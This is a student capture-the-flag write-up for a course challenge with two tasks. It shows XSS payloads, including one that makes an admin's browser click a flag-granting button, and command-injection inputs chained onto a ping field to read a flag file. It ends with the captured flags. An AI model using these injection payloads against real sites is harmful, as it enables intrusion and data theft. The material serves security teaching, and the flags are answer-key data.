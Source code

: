 # CTFs - Challenge 10
______________

# Task 1

## Vulnerability

By noticing we have an input field, we can try to inject javascript code to see if we can execute malicious code. We can try to inject the following code:

```html
<script>alert(1)</script>
```
![alert](/images/10_1.png)

## Exploit to make the admin give us the flag

After inspecting the page, we can see that the admin has a button to give us the flag. We can try to inject the following code to make the admin click the button:

```html
<script>document.getElementById('giveflag').click()</script> 
```
![giveflag](/images/10_2.png)
![flag](/images/10_3.png)


# Task 2

## RCE - Vulnerability
 
Since we can run a ping command, we can try to run other commands and test it. We can try to run the following command:

```bash
localhost && echo "You got hacked!" 
```

![hacked](/images/10_4.png)

## Exploit

We can try to run the following command to get the flag:

```bash
localhost && cd ../../../../../../../../flags && cat flag.txt
```

![flag](/images/10_5.png)

____________

# Submitted Flags
- **CTF 1** --> flag{86d3b3ecb36d053dfa4eb1dda63ad608}
- **CTF 2** --> flag{748d5494480f097fb85d707a1857f860}

____________

# Group 7, 22/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt